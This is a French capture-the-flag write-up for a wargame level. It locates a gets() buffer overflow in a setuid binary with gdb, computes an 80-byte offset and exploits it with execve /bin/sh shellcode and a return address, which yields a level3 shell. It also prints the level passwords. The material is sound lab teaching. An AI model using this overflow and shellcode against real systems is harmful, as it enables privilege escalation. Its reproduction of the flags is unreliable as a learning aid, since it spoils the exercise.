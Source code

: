 # Level2

> login:password -> *`level2:53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77`*
```
:~$ su level2
Password:53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
---

```
:~$ pwd
/home/user/level2
```

```
:~$ ls -la
dr-xr-x---+ 1 level1 level1   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level1 level1  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level1 level1 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level2
-rw-r--r--+ 1 level1 level1   65 Sep 23  2015 .pass
-rw-r--r--  1 level1 level1  675 Apr  3  2012 .profile
```

Le Home contient un binaire `level2` :

```
:~$ ./level2
(input)

:~$ ./level2 test
(input)
```

Avec ou sans paramètre, le binaire attends un input

```
:~$ gdb level2
...

(gdb) disas main
Dump of assembler code for function main:
   0x0804853f <+0>:	    push   %ebp
   0x08048540 <+1>:	    mov    %esp,%ebp
   0x08048542 <+3>:	    and    $0xfffffff0,%esp
   0x08048545 <+6>:	    call   0x80484d4 <p>
   0x0804854a <+11>:	leave  
   0x0804854b <+12>:	ret 
End of assembler dump.

(gdb) disas p
Dump of assembler code for function p:
   (...)
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
   (...)
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
   0x080484f2 <+30>: mov    0x4(%ebp),%eax
   (...)
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
   (...)
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
   (...)
   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
   (...)
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:	leave  
   0x0804853e <+106>:	ret    
End of assembler dump.

(gdb) quit
```

On remarque que le main du binaire appel une fonction `p()` (+6) et que cette derniere appelle plusieurs fonctions dont une fonction `gets()` (+25) vulnerable a un buffer overflow.

Pour definir le buffer offset, on va run le programme dans gdb en suivant ces quelques etapes:
- `break *0x080484f2`: on pose un breakpoint sur l'eip 0x080484f2 (+30) qui intervient juste apres notre `gets()` (+25).
- `x $eax`: arrive a notre break, on cherche l'hexadecimal de `$eax`.
- `info frame`: on affiche plus d'informations concernant la frame et trouver le `Saved registers`.
- `print` saved_register - hexa_eax: on affiche notre offset, ici `80`.

```
(gdb) break *0x080484f2
Breakpoint 1 at 0x80484f2
(gdb) run
Starting program: /home/user/level2/level2 
test

Breakpoint 1, 0x080484f2 in p ()
(gdb) x $eax
0xbffff6dc:	0x74736574
(gdb) info frame
Stack level 0, frame at 0xbffff730:
 eip = 0x80484f2 in p; saved eip 0x804854a
 called by frame at 0xbffff740
 Arglist at 0xbffff728, args: 
 Locals at 0xbffff728, Previous frame's sp is 0xbffff730
 Saved registers:
  ebp at 0xbffff728, eip at 0xbffff72c
(gdb) print 0xbffff72c - 0xbffff6dc
$1 = 80
```
- On va pouvoir faire notre exploit avec l'utilisation d'un [shellcode](https://shell-storm.org/shellcode/files/shellcode-575.html) qui va permettre d'ouvrir le prompt a la saisie:\
`\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80`
- Puis finir par ajouter l'adresse de retour:\
"`\x08\xa0\x04\x08`"
- Le offset est de 80, mais notre shellcode est de **21 bytes** et le retour de **4 bytes**. On va donc devoir inserer (80 - (21+4) = 59) **59 bytes** entre le shellcode et le retour pour rendre executer notre exploit du binaire `level2`

```
(python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "q" * 59 + "\x08\xa0\x04\x08"'; cat) | ./level2

:~$ python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "q" * 59 + "\x08\xa0\x04\x08"' > /tmp/level2
:~$ cat /tmp/level2 - | ./level2
j
 X�Rh//shh/bin��1�̀qqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqq�
whoami
level3
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02

```
